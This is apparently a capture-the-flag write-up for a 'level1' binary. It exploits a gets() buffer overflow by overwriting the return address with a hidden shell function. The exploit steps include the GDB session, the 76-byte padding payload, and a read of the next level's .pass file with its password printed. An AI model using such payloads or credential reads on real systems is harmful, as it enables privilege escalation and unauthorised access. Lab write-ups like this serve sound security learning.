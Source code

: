 a binary with elevated permissions can be found in the directory

running it we see that it takes input from stdin, then closes
this is due to a gets() call in main

if we enter too many characters we get a segfault
python -c "print 'a' * 100" > tmp/test1
cat /tmp/test1 | ./level1
Segmentation fault (core dumped)

this is a buffer overflow

using GDB we can see the address of the segfault
gdb level1
(gdb) r < /tmp/level1
Starting program: /home/user/level1/level1 < /tmp/test1

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()

61 is the ascii value of 'a', the character we used to cause the overflow
it has overwritten the gets() call continue address


After dissassembling we can see that similar to level0, there is a bin_sh call in the binary but it is in a block of code (run) that is not executed.
Using the right ammount of padding the buffer overflow will allow us to inject the address of this code (0x08048444) and run it

we can use https://wiremask.eu/tools/buffer-overflow-pattern-generator/ to find the exact size that will cause a buffer overflow (76)
the binary is little endian so we must reverse the bits
python -c "print 'a' * 76 + '\x08\x04\x84\x44'[::-1]" > /tmp/inj1
the '-' cat parameter allows us to preserve stdin

cat /tmp/inj1 - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
